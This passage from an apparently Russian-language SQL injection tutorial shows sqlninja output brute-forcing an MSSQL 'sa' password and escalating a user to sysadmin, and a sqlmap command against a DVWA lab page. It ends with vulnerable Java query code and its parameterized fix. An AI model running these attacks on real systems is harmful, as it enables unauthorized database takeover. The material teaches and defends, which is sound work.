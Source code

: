   ```
  - local host: 192.168.0.1
  - sniff device: eth0
  - domain: sqlninja.net
  [v] SSL connection forced
  [+] Target is: state.govt.agency.us
  [+] Wordlist has been specified: using dictionary-based bruteforce
  Number of concurrent processes  [min:1 max:10 default:3]
  > 1
  [v] Creating UNIX socket for children messages
  [v] Launching children processes
  [+] Bruteforcing the sa password. This might take a while
  dba password is...: servername
  bruteforce took 60 seconds
  [+] Trying to add current user to sysadmin group
  [+] Done! New connections will be run with administrative privileges! In case
    the server uses ODBC, you might have to wait a little bit
    (check sqlninja-howto.html)
  ```
* SQLMap
  ```bash
  sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low"
  ```
  ![](./img/sqli/sqlmap_blind.png)

# Рекомендации
Большинство случаев SQL-инъекций можно предотвратить, используя параметризованные запросы (prepared statements) вместо объединения строк в запросе.

Следующий код уязвим для SQL-инъекций, поскольку пользовательский ввод объединяется непосредственно с запросом:
```
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```
Этот код можно легко переписать таким образом, чтобы пользовательский ввод не мешал структуре запроса:
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```